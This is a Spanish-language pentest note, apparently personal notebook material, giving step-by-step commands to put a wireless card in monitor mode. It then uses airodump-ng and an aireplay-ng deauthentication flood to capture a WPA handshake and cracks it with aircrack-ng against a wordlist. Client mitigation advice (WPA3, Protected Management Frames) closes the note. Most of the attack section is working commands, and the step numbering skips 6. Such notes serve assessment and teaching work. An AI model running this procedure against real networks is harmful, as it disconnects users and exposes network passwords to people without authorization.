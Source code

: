  Nota: Es necesario tener una placa que soporte modo monitor
 Nota: Cambiar wlp6s0f3u2mon por el nombre de su interfaz en los comandos listados a continuación.
 Nota: Utilizar VM o conectar via ethernet su pc, ya que al cambiar interfaz a modo monitor les va a cortar internet


1. Identificamos la interfaz correspondiente al adaptador utilizando ifconfig, en mi caso **eswlp6s0f3u2** ![Identificando interfaz](Pasted%20image%2020240717151205.png)
2. Con el siguiente comando `sudo airmon-ng start wlp6s0f3u2`, inicializamos el modo monitor en dicha interfaz.
3. Una vez inicializado el modo monitor, podemos comenzar a monitorear las redes wifi a nuestro alcance con el siguiente comando `sudo airodump-ng wlp6s0f3u2mon` (Iniciar el modo monitor agrega el sufijo "mon" a dicha interfaz)  Si queremos incluir redes 5.8 correr el siguiente comando `sudo airodump-ng wlan0 --band abg`
4. Una vez ejecutado dicho comando debemos identificar la red la cual queremos "atacar", para eso anotaremos su "**BSSID**", "**ESSID**" y su canal que corresponde a la columna "**CH**"
5. Una vez obtenida dicha información, procederemos a obtener un dato faltante más que es necesario para realizar el deauth. Para obtenerlo utilizaremos el siguiente comando: `sudo airodump-ng -d BSSID -c CH -w ESSID/Nombre que quieran wlp6s0f3u2mon` y una vez ejecutado anotaremos el valor que figura en la columna "**STATION**" (mac address) (Si el ESSID contiene espacios, escribirlo dentro de comillas dobles **"ESSID"**, de todas formas pueden poner el nombre que quieran, es simplemente el nombre que se le dará al output del proceso) **NOTA: No cortar el proceso del paso 5 hasta luego de haber realizado el paso 6, ya que la idea de airodump-ng es capturar los paquetes de AUTENTICACIÓN que se enviaran desde el dispositivo "ddoseado" hacia la red, para posteriormente intentar crackearlos**.
7. Ya con dicha información procederemos a realizar el envío de paquetes de deautenticación (o desautenticación no se como se dice) con el siguiente comando: `sudo aireplay-ng --deauth 0 -a BSSID -c STATION wlp6s0f3u2mon` y luego veremos algo similar a esto ![Salida de aireplay-ng](Pasted%20image%2020240717153831.png)
8. Una vez ejecutado esto, encontraremos varios archivos en el directorio donde ejecutamos el comando del paso 5. Uno de ellos es un .cap, que debe contener los paquetes de autenticación de los dispositivos de la red atacada, que intentan conectarse manual o automaticamente.  Algo que no está de más aclarar, volviendo a hacer referencia a los pasos anteriores, una vez que finalizamos la ejecución del deauth, en el proceso del paso 5 deberíamos ver el mensaje WPA handshake: BSSID![WPA handshake capturado](Pasted%20image%2020240717161256.png) Esto nos indica que fue capturado el 4way handshake con los paquetes de autenticación (contraseña de la red) encriptados.
9. Un paso que no es necesario, pero está bueno para entender como funciona es abrir nuestro archivo de airodump con wireshark: `wireshark nombre.cap` y buscamos "eapol" en la barra de busqueda de wireshark y podremos ver estos paquetes mencionados anteriormente ![Paquetes mencionados](Pasted%20image%2020240717161616.png) Si seleccionamos el Message 2 veremos que dentro está el siguiente dato ![Dato dentro del mensaje](Pasted%20image%2020240717161919.png) Esa es la clave de red que debemos crackear que fue capturada por nosotros.
10. Finalmente llegamos a la etapa de crackeo, lo haremos con una wordlist a elección y utilizando como archivo a crackear el mismo que abrimos en wireshark, el .cap. El comando es el siguiente: `sudo aircrack-ng nombre.cap -w wordlist.txt` y si tenemos suerte vamos a recibir el siguiente mensaje en consola ![Crackeo exitoso](Pasted%20image%2020240717162822.png)
------------------------------
Useful Commands:

- arp -a
Associates ip with mac address
- netstat -ano
Shows all open ports and what's connected to those ports
- 

-----------------
Para el cliente:

Si el deauth funciona recomendar lo siguiente.
- Utilizar WPA3
- Si no pueden utilizar WPA3, habilitar Protected Management Frames (PMF), si es soportado por sus routers.
- Monitorear actividad de ret con, por ejemplo, snort
- Configuración de router, (Shorten Beacon Interval, Increase Minimum Signal Strength)
- Educar usuarios, en caso de que sufran desconexiones o no puedan logearse, que avisen inmediatamente

- ### Example: Enabling 802.11w (if supported)

1. **Log in to Your Router's Admin Interface**: Access your router’s web interface, typically via a web browser at an IP address like `192.168.1.1`.
    
2. **Navigate to Wireless Security Settings**: Find the wireless security settings section.
    
3. **Enable 802.11w/PMF**: Look for an option to enable 802.11w or Protected Management Frames (PMF). Enable it.
    
4. **Save and Apply Changes**: Save the settings and reboot your router if necessary.

